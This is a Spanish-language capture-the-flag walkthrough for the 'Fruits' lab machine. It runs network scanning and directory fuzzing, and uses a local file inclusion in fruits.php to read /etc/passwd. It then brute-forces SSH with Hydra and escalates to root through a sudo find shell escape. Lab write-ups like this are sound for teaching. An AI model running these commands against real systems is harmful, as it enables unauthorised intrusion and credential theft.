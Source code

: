 # Fruits

[https://thehackerslabs.com/fruits/](https://thehackerslabs.com/fruits/)

![image.png](./imagenes/image.png)

```bash
sudo arp-scan -I eth0 --localnet 
```

![image.png](./imagenes/image%201.png)

```bash
nmap -p- -sS -sV -sC --open -min-rate=5000 -n -vvv -Pn 10.0.3.23
```

![image.png](./imagenes/image%202.png)

- Miramos el puerto 80 en el navegador web
    
    ![image.png](./imagenes/image%203.png)
    

- Miramos por si acaso encontramos alguna pista el código fuente.
    
    `CTRL+U`
    
    ![image.png](./imagenes/image%204.png)
    
    No encontramos nada.
    
- Hacemos **Fuzzing Web** (descubrimiento de directorios y archivos) con **Gobuster** específicamente con archivos con extension php,thml y txt.
    
    ```bash
    gobuster dir -u http://10.0.3.23/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,html,txt
    ```
    
    ![image.png](./imagenes/image%205.png)
    

- Probamos el archivo fruits.php en el navegador
    
    ![image.png](./imagenes/image%206.png)
    
    No muestra nada
    

<aside>
💡

Pero al ser un archivo php carga desde el servidor por lo que podríamos agregarle parámetros para ver si nos devuelve algo. 

</aside>

- Vamos a ver si es vulnerable a un **Local File Inclusion (LFI)** pero para ello debemos conocer el parámetro y vamos a **usar WFUZZ. V**amos a intentar alguno que tenga acceso a la carpeta ****`/etc/passwd`.
    
    ```bash
    wfuzz -c -u http://10.0.3.23/fruits.php?FUZZ=/etc/passwd -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  
    ```
    
    ![image.png](./imagenes/image%207.png)
    
    Salen muchísimos falsos positivos por tanto vamos a filtrar por ejemplo por caracteres quitando que como vemos se repiten mucho lo de 1 carácter.
    

```bash
wfuzz -c -u http://10.0.3.23/fruits.php?FUZZ=/etc/passwd -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --hh 1  
```

![image.png](./imagenes/image%208.png)

- Lo probamos en el navegador `?file=/etc/passwd`
    
    ![image.png](./imagenes/b53aafc2-3683-493b-b614-e58e36179de0.png)
    
    Nos encontramos dos posibles usuarios root y bananaman.
    
- Vamos a intentar hacer fuerza bruta con Hydra al SSH.
    
    ```bash
    hydra -l bananaman -P /usr/share/wordlists/rockyou.txt ssh://10.0.3.23 
    ```
    
    ![image.png](./imagenes/image%209.png)
    

- Nos conectamos por SSH con las credenciales optenidas
    
    ```bash
    ssh bananaman@10.0.3.23
    ```
    
    ![image.png](./imagenes/image%2010.png)
    

- Probamos escalada de privilegios con `sudo -l`.
    
    `sudo -l`
    
    ![image.png](./imagenes/image%2011.png)
    

- Investigamos el comando find con sudo en [https://gtfobins.github.io/](./imagenes/https://gtfobins.github.io/)
    
    ![image.png](./imagenes/image%2012.png)
    
    `sudo find . -exec /bin/sh \; -quit`
    
    ![image.png](./imagenes/image%2013.png)
    

- Ejecutamos `bash -p` para  **mantener los privilegios elevados** si el shell se inició con permisos de administrador o de otro usuario. Normalmente, Bash puede reducir esos privilegios por seguridad, pero con `-p` evita hacerlo.
    
    `bash -p`
    
    ![image.png](./imagenes/image%2014.png)
  
